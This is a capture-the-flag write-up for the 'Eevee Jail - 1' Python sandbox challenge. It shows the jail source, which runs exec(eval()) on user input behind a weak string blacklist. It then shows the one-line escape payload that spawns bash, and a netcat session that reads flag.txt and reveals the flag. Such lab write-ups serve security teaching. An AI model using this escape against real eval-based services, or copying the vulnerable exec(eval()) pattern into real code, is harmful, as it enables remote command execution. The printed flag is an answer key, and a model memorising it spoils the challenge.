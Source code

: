 # Eevee Jail - 1

We are given the jail source:

{% tabs %}
{% tab title="jail-1.py" %}
```python
#!/usr/local/bin/python
from shell import shell

blacklist = ["flag", "locals", "vars", "\\", "{", "}"]

banner = '''
========================
=    Eevee's Jail 1    =
========================
'''

print(banner)

for _ in [shell]:
    while True:
        try:
            huh = ascii(input("[+] > "))
            if any(no in huh for no in blacklist):
                raise ValueError("[!] Mission Failed. Try again.")
            exec(eval(huh))
        except Exception as err:
            print(f"{err}")
```
{% endtab %}
{% endtabs %}



It blacklists some of these strings as input

```python
blacklist = ["flag", "locals", "vars", "\\", "{", "}"]
```

and later after that is uses:

```python
exec(eval(huh))
```

It is pretty straight forward, we can import the `os` module and call a system shell

```python
__import__('os').system('bash')
```

```
❯ nc 157.180.92.15 47490             

========================
=    Eevee's Jail 1    =
========================

[+] > __import__('os').system('bash')  
ls
flag.txt
jail-1.py
shell.py
cat flag.txt
bbctf{is_th3r3_another_w4y_70_solv3_this?}
```

Flag: `bbctf{is_th3r3_another_w4y_70_solv3_this?}`
